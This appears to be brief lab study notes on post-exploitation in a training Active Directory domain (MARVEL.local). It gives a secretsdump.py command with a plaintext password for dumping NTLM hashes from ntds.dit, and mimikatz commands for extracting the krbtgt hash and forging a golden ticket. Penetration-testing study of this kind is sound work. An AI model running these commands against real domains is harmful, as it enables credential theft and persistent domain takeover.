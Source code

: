 # Post compromising domain

## Dumping thz ntds.dit

```
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm 
```

## Golden ticket attack



```
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt
# Reuse creds to create golden ticket
kerberos::golden /User:Administrator /domain:marvel.local /sid:[SID_VALUE] /krbtgt:[KRBTGT_NTLM_HASH] /id:[RELATIVE_ID] /ptt
```

